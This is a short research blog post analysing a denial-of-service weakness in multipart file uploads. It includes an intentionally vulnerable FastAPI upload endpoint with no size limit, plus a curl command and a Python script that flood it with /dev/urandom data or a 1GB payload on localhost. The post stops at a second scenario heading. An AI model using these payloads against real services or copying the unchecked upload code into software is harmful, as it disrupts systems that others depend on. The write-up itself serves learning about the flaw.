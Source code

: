 ```yaml
---
layout: post
title: Research DoS Vulnerability via multipart/form-data
date: 2024-10-30
categories: ["1-Day-Analysis", "Python"]
---
```


# Summary

I have read a vulnerability about DoS Vulnerability via multipart/form-data, so to deep understand of vulnerability i will research in the direction build code have vulnerability and poc. About DoS vulnerability, this is vulnerability will causing system disruption, with upload via multipart/data hacker will upload large file to application. System when process large file will inscrease cpu and mem causing system disruption. 

# Scenario 1: DoS via file upload

I have a code run a api for upload file with python

```
from fastapi import FastAPI, File, UploadFile, HTTPException
import uvicorn
import os

app = FastAPI()

UPLOAD_DIR = "./uploads"
os.makedirs(UPLOAD_DIR, exist_ok=True)

@app.post("/upload/")
async def upload_file(file: UploadFile = File(...)):
    # read and save file
    try:
        file_location = os.path.join(UPLOAD_DIR, file.filename)
        with open(file_location, "wb") as buffer:
            buffer.write(await file.read())
        return {"filename": file.filename}
    except Exception as e:
        raise HTTPException(status_code=500, detail="Error saving file")

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=8000)

```

This code allow upload any file and save file to folder "uploads". There aren't any check file size so i can upload file with big size. To perform upload file, i use file with `</dev/urandom`. 

`/dev/urandom` is special file of linux, provide random data unlimited. When read '/dev/urandom' system will generate random bytes. Because this is data unlimited, so curl will continous read data and send data until server is interupted or when server cannot accept any data. 

POC with curl when use Linux:

```
curl -X POST http://localhost:8000/upload/ -F 'file=@/dev/urandom'
```

POC with python code: 

```
import requests

def dos_attack_upload():
    url = "http://localhost:8000/upload/"
    # Create data with big size
    large_data = b"A" * 1024 * 1024 * 1024  # 1GB

    files = {
        "file": ("large_file.txt", large_data, "text/plain")
    }

    # Send request post to uplaod file
    response = requests.post(url, files=files)
    
    print("Status Code:", response.status_code)
    print("Response:", response.json())

if __name__ == "__main__":
    dos_attack_upload()

```

# Scenario 2: DoS via multipart boundry

